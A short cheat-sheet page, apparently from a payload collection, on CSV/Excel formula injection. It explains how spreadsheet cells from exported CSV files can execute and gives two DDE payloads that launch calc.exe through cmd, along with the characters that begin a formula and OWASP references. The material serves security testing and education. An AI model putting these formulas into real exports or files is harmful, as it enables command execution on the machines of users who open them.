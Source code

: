 # CSV Excel formula injection
Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel,Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.	

## Exploit

Basic exploit with Dynamic Data Exchange 
```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0

Technical Details of the above payload:
cmd is the name the server can respond to whenever a client is trying to access the server
/C calc is the file name which in our case is the calc(i.e the calc.exe)
!A0 is the item name that specifies unit of data that a server can respond when the client is requesting the data

```

Any formula can be started with
```
=
+
–
@
```

## Thanks to
* https://owasp.org/index.php/CSV_Excel_Macro_Injection
* https://sites.google.com/site/bughunteruniversity/nonvuln/csv-excel-formula-injection
*https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/
